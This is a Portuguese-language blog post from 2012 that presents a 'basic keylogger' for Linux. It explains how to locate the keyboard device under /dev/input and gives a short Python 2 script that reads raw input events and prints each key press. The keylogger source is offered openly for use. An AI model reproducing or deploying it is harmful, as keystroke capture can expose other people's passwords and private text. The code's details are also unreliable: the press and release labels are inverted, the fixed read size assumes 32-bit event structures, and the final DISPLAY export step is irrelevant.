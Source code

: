 ```yaml
---
id: 241
title: Keylogger basicão em linux
date: 2012-12-08T01:08:17+00:00
author: paolo
layout: post
guid: http://paoloo.wordpress.com/?p=241
permalink: /2012/12/08/keylogger-basicao-em-linux/
categories:
  - pt-BR
tags:
  - hacks
  - python
---
```

Antes de mais nada, todos devem estar cientes dos drivers dos dispositivos de entrada do sistema, presentes em /dev/input/. Dando um ls -al /dev/input/by-id/ podemos ver onde esta linkado cada evento de dispositivo de entrada(teclado, mouse, joystick, etc). Daí é só procurar o evento do teclado e pegar qual id do evento o representa.  
Em alguns casos, em notebooks, só fica mapeado o ID do mouse, nesses casos o teclado costuma ser o ID 0, ou seja, /dev/input/event0.  
Tendo o evento do teclado em maos, é bem simples:

<pre class="brush: python; title: ; notranslate" title="">DEV = '/dev/input/event0'
fo = open(DEV)
def inn(k,s):
  if s == 0:
    print '%i pressionado'%k
  if s == 1:
    print '%i liberado'%k
while 1:
  l = fo.read(16)
  if ord(l[10]) != 0:
    k,s = l[10],l[12]
    inn(ord(k),ord(s))
</pre>

depois disso, é só exportar a saida para seu terminal com

<pre class="brush: bash; title: ; notranslate" title="">export DISPLAY=:0
</pre>

E voce pode aguardar as teclas aparecendo.